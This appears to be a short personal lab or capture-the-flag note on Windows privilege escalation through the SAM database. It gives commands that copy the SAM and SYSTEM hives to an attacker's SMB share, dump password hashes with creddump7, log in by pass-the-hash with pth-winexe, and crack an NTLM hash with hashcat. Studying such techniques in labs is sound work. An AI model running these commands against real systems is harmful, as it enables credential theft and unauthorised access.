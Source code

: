 1x8 Password - SAM

## Password - SAM

![6837c0af3b0b5707576db2858d4c436a.png](../_resources/d479918f8c70491a9f12087c716d0e6d.png)

```bash
copy C:\Windows\Repair\SAM \\10.9.4.127\kali\
copy C:\Windows\Repair\SYSTEM \\10.9.4.127\kali\

Ref:
https://github.com/Neohapsis/creddump7.git
sudo apt install python-crypto
```
```bash
python2 pwdump.py SYSTEM SAM
```
![f38fe5d35c1acfb486c1fd70feeeafdd.png](../_resources/79a03d0eb15347cfa68b1b78837b0087.png)

**Pass the Hash**

```console
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.206.176 cmd.exe
```
![3d2d7dcaef6dbcd1d359beef9f5c2261.png](../_resources/55c1d73fb8304fc187751967b1354d68.png)

**Crack the Hash**

```bash
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /root/LargeFiles/wordlist/rockyou.txt
```
![0ffe4961f79628366da1a01c0b9bc122.png](../_resources/1817713093144953b2df2f0c81c8afb5.png)

![dd5223c9f787e872ce3094e6fbc41f9d.png](../_resources/5259bd001ce742ddaf6b0f81869a2d7a.png)

